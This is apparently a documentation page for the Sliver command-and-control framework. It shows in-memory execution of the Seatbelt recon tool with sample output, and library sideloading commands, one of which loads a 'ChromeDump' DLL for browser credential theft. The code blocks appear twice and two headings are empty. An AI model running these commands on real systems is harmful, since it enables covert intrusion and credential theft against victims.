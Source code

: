 ## Sideloading Features
## Known Limitations
## Loading .NET Assemblies
Here's an example with [Seatbelt](https://github.com/GhostPack/Seatbelt):
```
sliver (CONCRETE_STEEL) > execute-assembly -t 80 /tmp/Seatbelt.exe All
[*] Assembly output:

                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v0.2.0         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,

=== Running System Triage Checks ===

=== Basic OS Information ===

  Hostname                      :  DESKTOP-0QQJ4JL
  Domain Name                   :
  Username                      :  DESKTOP-0QQJ4JL\lab
  ProductName                   :  Windows 10 Pro
  EditionID                     :  Professional
  ReleaseId                     :  1909
  BuildBranch                   :  19h1_release
  CurrentMajorVersionNumber     :  10
  CurrentVersion                :  6.3
  Architecture                  :  AMD64
  ProcessorCount                :  2
  IsVirtualMachine              :  True
  BootTime (approx)             :  5/19/2020 8:55:55 AM
  HighIntegrity                 :  False
  IsLocalAdmin                  :  True
    [*] In medium integrity but user is a local administrator- UAC can be bypassed.
...
```

## Shared Library Side Loading
Here's a starting point :
```
// Windows example
sliver (CONCRETE_STEEL) > sideload -e ChromeDump /tmp/chrome-dump.dll
// Linux example
sliver (CONCRETE_STEEL) > sideload -p /bin/bash -a "My arguments" /tmp/mylib.so
// MacOS example
sliver (CONCRETE_STEEL) > sideload -p /Applications/Safari.app/Contents/MacOS/SafariForWebKitDevelopment -a 'Hello World' /tmp/mylib.dylib
```

`
sliver (CONCRETE_STEEL) > execute-assembly -t 80 /tmp/Seatbelt.exe All
[*] Assembly output:

                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v0.2.0         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,

=== Running System Triage Checks ===

=== Basic OS Information ===

  Hostname                      :  DESKTOP-0QQJ4JL
  Domain Name                   :
  Username                      :  DESKTOP-0QQJ4JL\lab
  ProductName                   :  Windows 10 Pro
  EditionID                     :  Professional
  ReleaseId                     :  1909
  BuildBranch                   :  19h1_release
  CurrentMajorVersionNumber     :  10
  CurrentVersion                :  6.3
  Architecture                  :  AMD64
  ProcessorCount                :  2
  IsVirtualMachine              :  True
  BootTime (approx)             :  5/19/2020 8:55:55 AM
  HighIntegrity                 :  False
  IsLocalAdmin                  :  True
    [*] In medium integrity but user is a local administrator- UAC can be bypassed.
...
`

`
// Windows example
sliver (CONCRETE_STEEL) > sideload -e ChromeDump /tmp/chrome-dump.dll
// Linux example
sliver (CONCRETE_STEEL) > sideload -p /bin/bash -a "My arguments" /tmp/mylib.so
// MacOS example
sliver (CONCRETE_STEEL) > sideload -p /Applications/Safari.app/Contents/MacOS/SafariForWebKitDevelopment -a 'Hello World' /tmp/mylib.dylib
`

